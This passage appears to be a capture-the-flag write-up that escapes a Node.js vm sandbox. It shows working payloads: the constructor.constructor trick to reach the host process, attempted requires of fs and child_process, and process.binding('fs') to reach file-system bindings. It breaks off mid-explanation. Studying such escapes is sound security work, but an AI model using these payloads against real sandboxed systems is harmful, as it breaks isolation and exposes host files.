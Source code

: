 ### Analysis & Solution
One of the first things we see when looking at the documentation is a disclaimer stating that the lib is not to be used as a security mechanism... So... There must be a way to escape from the context.

Searching a little bit for things like "nodejs vm escape" will provide a couple of existing links. The ones I used to help solve this callenge were:
1. [Escaping nodejs vm](https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af)
2. [Escape NodeJS Sandboxes](https://blog.netspi.com/escape-nodejs-sandboxes/)

From resource 1, the most relevant thing is the ability to make an eval of a string on the Global context (not the sandbox one), by using  [(this.constructor.constructor(""))()](https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af#file-escape-js-L48-L50)

So we can start playing with that. For example, if we look at `this` and its `process` variable, we can see that in Sandbox mode, it's `undefined`

```javascript
> this
[object Object]
> this.process
undefined
```

However, using the constructor escape...

```javascript
> (this.constructor.constructor("return this.process"))()
[object process]
```
**Bingo, we have a process!**

After this, since the challenge already provides a hint stating the location of the flag file, the first thing I tried was using common JS/nodeJS libs to read files. But it seems that we cannot do `require` of libs.

```javascript
> (this.constructor.constructor("var fs = require('fs'); return fs"))()
An error occurred.
> (this.constructor.constructor("var cp = require('child_process'); return cp"))()
An error occurred.
```

Reading now from [resource 2](https://blog.netspi.com/escape-nodejs-sandboxes/), I noticed a peculiar way of "importing" some libs using `process.binding('fs')`. So, let's try it!

```javascript
> (this.constructor.constructor("var fs = this.process.binding('fs'); return fs;"))()
[object Object]
```
Trying to load 'fs' returns something!

Apparently, NodeJS has the possibility of creating things on different languages (like C/C++) taking advantage of the language, and then binding it to it.
It seems that by default, there is a standard set of bindings that you can use in Node, which could be described using the `natives` binding:
